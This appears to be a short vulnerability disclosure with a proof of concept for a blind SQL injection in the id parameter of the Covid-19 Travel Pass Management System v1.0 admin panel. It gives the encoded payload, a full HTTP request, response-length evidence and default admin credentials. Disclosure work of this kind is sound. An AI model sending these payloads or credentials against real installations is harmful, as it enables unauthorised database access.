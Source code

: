 # Covid-19 Travel Pass Management System v1.0 by oretnom23 has SQL injection

Author： k0xx

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15308/covid-19-travel-pass-management-system-phpoop-free-source-code.html

Vulnerability File: /ctpms/admin/?page=individuals/view_individual&id=

Vulnerability location: /ctpms/admin/?page=individuals/view_individual&id=,id

[+] Payload: /ctpms/admin/?page=individuals/view_individual&id=2%27%20and%20length(database())%20=8--+ // Leak place ---> id

Current database name: ctpms_db,length is 8

```sql
GET /ctpms/admin/?page=individuals/view_individual&id=2%27%20and%20length(database())%20=8--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=sbd29ujtf9eelnf4f6rlt8ikfi
Connection: close
```
When length (database ()) = 7, Content-Length: 25684
![image](https://user-images.githubusercontent.com/54017627/167081321-587f5447-cfde-4e1e-b200-592966b2f6a4.png)

![image](https://user-images.githubusercontent.com/54017627/167081426-18ea5456-1581-46f9-9817-f12f8ddf0057.png)

When length (database ()) = 8, Content-Length: 25828

![image](https://user-images.githubusercontent.com/54017627/167081297-910a3484-9a86-4a5d-9219-2b5fa6236578.png)

![image](https://user-images.githubusercontent.com/54017627/167081351-9ff910d8-378d-4b23-8357-2e80efd28575.png)
